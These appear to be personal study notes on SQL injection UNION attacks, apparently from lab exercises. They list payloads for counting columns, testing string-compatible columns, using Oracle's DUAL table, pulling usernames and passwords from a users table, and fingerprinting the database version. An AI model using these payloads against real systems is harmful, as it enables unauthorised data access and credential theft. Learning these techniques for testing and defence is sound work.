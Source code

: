 Can use 'ORDER BY' with UNION to exploit without names of any columns

Origin: SELECT id, name FROM users WHERE name = 'John';
Payload: SELECT id, name FROM users WHERE name = 'John' ORDER BY 3--;  => cause error

=> there are only 2 columns in query



```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

When use the UNION not have the right number of columns, cause internal server error, when work, 200 OK


## Database-specific syntax

There are built-in table, example is table 'dual' in Oracle, we can use it for UNION ATTACK

' UNION SELECT NULL FROM DUAL--

## Extract datatype compatible with specific columns

`GET /filter?category='UNION+SELECT+NULL,'OJg7mW',NULL--`

=> Then we know that columns 2 is compatibale with the string 

Oracle: cause of every SELECT query need to use FROM clause:

`'UNION+SELECT+NULL,NULL+FROM+dual--`

## Retrieving interest data with UNION

When we know the number of columns returned by the original query, and know which columns can hold string data, we 
can retrieve interesting data

Suppose:
`SELECT id, name FROM employees WHERE name = 'input_here';`

Payload:
`' UNION SELECT username, password FROM users--`


## Examining database in SQLi

GOALS:
	- The type and version of the database software.
	- The tables and columns that the database contains.

| Database Type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |
